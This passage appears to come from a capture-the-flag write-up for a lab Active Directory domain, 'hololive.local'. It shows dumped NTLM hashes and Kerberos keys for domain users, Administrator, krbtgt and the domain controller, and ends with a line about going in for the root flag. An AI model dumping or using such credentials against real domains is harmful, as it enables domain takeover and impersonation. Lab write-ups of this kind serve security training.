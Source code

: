 ```text
hololive.local\okayun:1110:aad3b435b51404eeaad3b435b51404ee:a170447f161e5c11441600f0a1b4d93f:::
hololive.local\watamet:1115:aad3b435b51404eeaad3b435b51404ee:50f91788ee209b13ca14e54af199a914:::
hololive.local\mikos:1116:aad3b435b51404eeaad3b435b51404ee:74520070d63d3e2d2bf58da95de0086c:::
DC01$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:3415e858d1caff75baeb02c4dd7154328ea6c87f07336a5c926014392a40ed49
Administrator:aes128-cts-hmac-sha1-96:535501623337ae03580527692f08f0e1
Administrator:des-cbc-md5:bf34685d383e6734
krbtgt:aes256-cts-hmac-sha1-96:9702af2b67c5497940d0f0a7237fbd53d18fb2923fadd37f4ba33d6d5dab4583
krbtgt:aes128-cts-hmac-sha1-96:81628713bd5608becc4325052eb9702d
krbtgt:des-cbc-md5:25f1cea1542f9e31
hololive.local\a-koronei:aes256-cts-hmac-sha1-96:8085b97e73f4dfa6e2cc52a885dd3b1339bf17c17e999a8863686bdf0d800763
hololive.local\a-koronei:aes128-cts-hmac-sha1-96:2f6fd0c9e56a00883ab21544791becab
hololive.local\a-koronei:des-cbc-md5:89df5b3b9b680ea1
hololive.local\a-fubukis:aes256-cts-hmac-sha1-96:7b675daa6cd54ae667a2726a5d99259638b29467fd8e4b3cd6ec4e9564a168dd
hololive.local\a-fubukis:aes128-cts-hmac-sha1-96:883e1d7b14b9024527bd7da69c80a350
hololive.local\a-fubukis:des-cbc-md5:94294304ec7637c1
hololive.local\matsurin:aes256-cts-hmac-sha1-96:cfde1ad860382daa706dd11d585ff1512eef873dc85ae9a88437dc7501fa8e04
hololive.local\matsurin:aes128-cts-hmac-sha1-96:08a011409d044e2f1aec7a6782cbd7b5
hololive.local\matsurin:des-cbc-md5:04fde39d61c215fe
hololive.local\fubukis:aes256-cts-hmac-sha1-96:ed8e594f0b6b89cfa8030bcf9f3e41a9668793a12f598e42893fe8c9f6c5b8eb
hololive.local\fubukis:aes128-cts-hmac-sha1-96:ee003acb55927bb733826aa9a9ddfb53
hololive.local\fubukis:des-cbc-md5:075b8ffde398fe80
hololive.local\koronei:aes256-cts-hmac-sha1-96:6df316ac8564b8254457d973ad61a71a1dfcc5ffe6218cb39f14bb0bbda4a287
hololive.local\koronei:aes128-cts-hmac-sha1-96:6afe7f4196657648505d2af9bbfaf8ba
hololive.local\koronei:des-cbc-md5:a737e6073d15aecd
hololive.local\okayun:aes256-cts-hmac-sha1-96:cf262ddfb3239a555f9d78f90b8c01cd51032d34d104d366b4a94749b47fe6c5
hololive.local\okayun:aes128-cts-hmac-sha1-96:53be14aa0da3f7b657e42c5ed1cef12a
hololive.local\okayun:des-cbc-md5:10896d3786b9628f
hololive.local\watamet:aes256-cts-hmac-sha1-96:45f99941cfc277515aff47a4dfc936e805f7fedd3d175524708c868e2c405ec9
hololive.local\watamet:aes128-cts-hmac-sha1-96:07a6307a5b58f33a61271516ac3364cc
hololive.local\watamet:des-cbc-md5:bf622564a840f192
hololive.local\mikos:aes256-cts-hmac-sha1-96:aab547ee10782fef9aea3b4be5392e7ca9605d0dca95f7510dca40b9628f4233
hololive.local\mikos:aes128-cts-hmac-sha1-96:5c56246d1fd7a4db5ff4fb65ba597e42
hololive.local\mikos:des-cbc-md5:6b2f7fa7a4ecd0c1
DC01$:aes256-cts-hmac-sha1-96:dbf8dbaaccbf17d6fb96cbb3c4046099a4a41d1453ff2d8a8970216ed15d9bf8
DC01$:aes128-cts-hmac-sha1-96:4c146fe76ec6150267564d9bd69769d8
DC01$:des-cbc-md5:cd161923ab9ec11c
[*] Cleaning up... 
```

Go in to get the root flag:
